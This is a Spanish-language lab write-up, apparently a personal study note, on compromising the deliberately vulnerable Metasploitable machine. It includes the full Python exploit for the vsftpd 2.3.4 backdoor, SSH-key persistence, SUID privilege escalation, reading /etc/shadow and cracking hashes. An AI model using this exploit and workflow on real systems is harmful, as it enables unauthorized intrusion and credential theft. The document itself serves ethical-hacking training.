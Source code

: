```yaml
---
{"-publish":true,"permalink":"/linux/metasploitable/","PassFrontmatter":true}
---
```



Es una `máquina` diseñada para para probar herramientas de `seguridad` y demostrar `vulnerabilidades` comunes.

- SO: Ubuntu Linux
- Vulnerabilidades intencionadas

---
## Que es una IP?

Una dirección `IP` es un identificador numérico único asignado a cada dispositivo conectado a una red, funciona como una especie de "*dirección*" para que los dispositivos puedan encontrarse y comunicarse entre sí dentro de la `red`. También es posible cambiar una dirección IP, dependiendo de si se trata de una IP `pública` o `privada`.

- IP pública: Una dirección que identifica tu red
- IP privada: Una dirección que identifica un dispositivo

![Pasted image 20250615181619.png](/img/user/Pasted%20image%2020250615181619.png)

## Que es ARP?

`ARP` es un *protocolo* que se utiliza para asignar direcciones `MAC` a direcciones IP en una red de área local (LAN). Esto funciona como un `traductor/intérprete` entre el protocolo de internet (IP) y la capa de enlace de datos (MAC). Es esencial para que los dispositivos se comuniquen dentro de la red, ya que las direcciones IP son lógicas y las direcciones MAC son físicas.
![Pasted image 20250615193448.png](/img/user/Pasted%20image%2020250615193448.png)

## Que es el ARP-SCAN?

Ya hablamos del protocolo ARP, ahora vamos a ver la herramienta utilizada para los protocolos ARP.
Es una herramienta de línea de comandos que se utiliza para descubrir hosts en una red local enviando paquetes `Addres Resolution Protocol` y analizando sus respuestas. Permitiendo a los usuarios identificar dispositivos activos y sus direcciones MAC y IP dentro de la red.

##### Como funciona?
- Si un dispositivo en la red está utilizando esa dirección IP, responderá con una solicitud ARP de vuelta, indicando su dirección MAC.
- `arp-scan` recopila estas respuestas y muestra la información del dispositivo, incluyendo su dirección IP y MAC.
- Envía solicitud ARP con la dirección IP de destino a cada dirección IP dentro de un rango especificado

Ejemplo:
![Pasted image 20250615194102.png](/img/user/Pasted%20image%2020250615194102.png)

---

## Que es Netcat?

`Netcat` es una herramienta de línea de comandos que sirve para escribir y leer datos en la red. Conocida por ser la `navaja suiza de las redes` debido a que podemos hacer transferencia de datos a través de los protocolos `TCP/UDP`, su funcionamiento depende de que la comunicación IP entre dispositivos esté correctamente establecida. Aquí es donde entra el protocolo ARP (`Address Resolution Protocol`), que trabaja en la capa de enlace de datos. ARP se encarga de resolver direcciones IP a direcciones MAC dentro de una red local. Cuando usas *Netcat* para conectarte a otra máquina en la misma red, primero se realiza una consulta ARP para saber a qué dirección MAC enviar los paquetes. Sin una resolución ARP exitosa, la conexión de Netcat no podría establecerse.

Ejemplo
![Pasted image 20250615195303.png](/img/user/Pasted%20image%2020250615195303.png)

---

## Escaneo y Enumeración:

Usaremos NMAP para para escanear los puertos abiertos y así poder identificar servicios en ejecución.

![Pasted image 20250615200116.png](/img/user/Pasted%20image%2020250615200116.png)

Como vector de ataque podríamos probar la versión del FTP en el cual si buscamos en internet tenemos varios documentos e informes acerca de la vulnerabilidad `vstftpd 2.3.4` en el cuál el exploit consiste en un `backdoor` que fue introducido por un atacante en el código fuente oficial del servidor FTP vsftpd. Este exploit permite al atacante obtener una shell remota en el servidor vulnerable.

código del exploit:
``` python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()

```

### Claves ID_RSA?
Es una clave privada del protocolo SSH, utilizado para autenticarse sin necesidad de una contraseña. Esto mismo sería para aplicar persistencia en la máquina.
![Pasted image 20250615204510.png](/img/user/Pasted%20image%2020250615204510.png)

Para ello, luego de mantener persistencia en la máquina podríamos elevar privilegios de manera local.

Como recurso de escalado de privilegios tenemos esta página llamada [GTFoBins](https://gtfobins.github.io) y [HackTricks](https://book.hacktricks.wiki/es/index.html) para múltiples técnicas de Hacking Ético.

Ejemplo de explotación de binarios SUID:
![Pasted image 20250615205929.png](/img/user/Pasted%20image%2020250615205929.png)

En la página de GTFoBins, tenemos varias técnicas de explotación de binarios SUID para buscar cual es la más acorde para escalar privilegios.

![Pasted image 20250615210130.png](/img/user/Pasted%20image%2020250615210130.png)

Luego de copiar el SUID correcto, queda elevar nuestros privilegios:
![Pasted image 20250615210243.png](/img/user/Pasted%20image%2020250615210243.png)
Y listo, ya somos ROOT, pero? no sabemos la contraseña de ROOT, ya que ahora tenemos privilegios máximos en el sistema podemos leer el archivo **/etc/shadow**

![Pasted image 20250615210515.png](/img/user/Pasted%20image%2020250615210515.png)
Y si nos damos cuenta la contraseña esta formato **HASH**, a lo cual nosotros tendremos que intentar fusionar los archivos `/etc/passwd` y `/etc/shadow` para que pueda ser entendido por herramientas de `crackeo de contraseñas` por ejemplo, `John The Ripper` y/o `Hashcat`, etc. Lo podemos realizar con el comando *unshadow*.

Luego podríamos almacenar estas credenciales obtenidas en unas notas de nuestra maquina principal por si en algún momento queremos mantener la persistencia del usuario ROOT.

## Que aprendimos?

Aprende que no todos las aplicaciones son seguras realmente, pudimos ingresar al protocolo `FTP` mediante un exploit que está en internet (*debido a que una empresa fue comprometida externamente*) más especifico mediante un `Backdoor` y hemos logrado mantener persistencia dentro de la maquina, haciendo uso de llaves privadas ID_RSA, luego intentamos elevar nuestros privilegios a lo cual mediante los SIUD mal configurados logramos obtener acceso máximo como ROOT y logramos leer las contraseñas de todos los usuarios de la máquina.


![fin.gif](/img/user/fin.gif)
